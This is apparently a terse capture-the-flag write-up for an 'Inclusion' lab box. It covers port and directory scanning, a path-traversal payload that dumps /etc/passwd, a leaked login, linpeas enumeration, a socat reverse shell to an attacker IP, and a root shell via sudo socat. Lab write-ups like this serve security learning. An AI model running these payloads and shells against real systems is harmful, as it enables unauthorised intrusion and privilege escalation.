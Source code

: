 # Inclusion [LFI]
# Data: 28.09.2020

IP:`10.10.162.71`
------------------

initial nmap -sC -sV -vv -A -p- --script vuln -oN initial/nmap <IP>
initial gobuster dir -u http://10.10.162.71 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x xx | tee initial/gobuster.log

------------------
()../../../../etc/passwd

///
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
///

user falconfeast
pass rootpassword

------------
upload linpeas.sh
chmod +x linpeas.sh
./linpeas

sudo -l - can run socat without pass -> GTFOBins

------------
on local: socat file:`tty`,raw,echo=0 tcp-listen:4444
on remote: socat tcp-connect:10.8.106.217:4444 exec:/bin/sh,pty,stderr,setsid,sigint,sane

but i got error ;( - `/bin/sh: 0: can't access tty; job control turned off`

luckly there is other way to get root access: sudo socat stdin exec:/bin/sh
cd /root/ 
and got the flag from root.txt
